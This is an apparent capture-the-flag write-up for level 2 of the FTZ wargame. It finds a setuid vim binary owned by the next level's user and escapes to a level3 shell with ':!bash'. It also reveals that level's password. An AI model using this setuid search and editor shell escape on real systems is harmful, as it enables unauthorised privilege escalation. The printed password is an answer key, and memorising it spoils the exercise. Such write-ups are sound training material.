 # Level2

## This level's goal

- Run the command in vi/vim editor

***

```
[level2@ftz level2]$ cat hint

텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...
(while you editing, you may execute shell command.....)
```
```
[level2@ftz level2]$ find / -user level3 -perm -4000 2>/dev/null
/usr/bin/editor
```

```
[level2@ftz level2]$ ls -l /usr/bin/editor
-rwsr-x---    1 level3   level2      11651 Aug 19  2014 /usr/bin/editor
```

```
[level2@ftz level2]$ which vi
alias vi='vim'
        /usr/bin/vim
```

```
[level2@ftz level2]$ ls -l /bin/vi
-rwxr-xr-x    1 root     root       456108 Feb 12  2003 /bin/vi
```

```
[level2@ftz level2]$ ls -l /usr/bin/vim`
-rwxr-xr-x    1 root     root      1893740 Feb 12  2003 /usr/bin/vim
```

```
[level2@ftz level2]$ /usr/bin/editor

:!id

uid=3003(level3) gid=3002(level2) groups=3002(level2)

Hit ENTER or type command to continue

:!bash
```

```
[level3@ftz level2]$ my-pass

Level3 Password is "can you fly?".
```
